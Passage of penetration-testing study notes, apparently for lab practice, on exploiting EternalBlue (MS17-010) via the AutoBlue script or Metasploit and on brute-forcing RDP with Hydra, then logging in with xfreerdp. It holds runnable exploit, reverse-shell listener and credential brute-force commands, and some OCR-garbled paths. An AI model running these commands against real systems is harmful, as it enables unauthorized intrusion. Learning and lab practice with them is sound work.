 - The EternalBlue exploit module can be used to exploit vulnerable Windows
systems and consequently provide us with a privileged meterpreter session on
the target system.

-  In addition to MSF modules, we can also manually exploit the vulnerability by
utilizing publicly available exploit code.

### [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

```bash
pip install -r requirements.txt
chmod +x ./shell_prep.sh

./shell_prep.sh

listener_prep.sh
# or use nc
nc -nvlp 1234

python3 eternalblue-exploit7.py 10.10.10.12 shellcode/sc_x64.bin
```

#### EternalBlue Exploit Using Metasploit
```bash
msf6 > exploit/windows/smb/ms17_010_eternalblue
```

## Exploiting RDP

- The Remote Desktop Protocol (RDP) is a proprietary GUI remote access
protocol developed by Microsoft and is used to remotely connect and interact
with a Windows system.

-  RDP uses TCP port 3389 by default, and can also be configured to run on any
other TCP port.

-  RDP authentication requires a legitimate user account on the target system as
well as the user’s password in clear-text.

-  We can perform an RDP brute-force attack to identify legitimate user
credentials that we can use to gain remote access to the target system.

``` bash
msf5 > use auxiliary/scanner/rdp/rdp_scanner 
# check if the port is running RDP

hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-franework/data/w| ordlists/unix_passwords.txt rdp://10.2.24.86 -s 3333
# Start brute force a username and a password

xfreerdp /u:administrator /p:qwertyuiop /v:10.2.24.86:3333
# connect to the RDP using valid creds
```
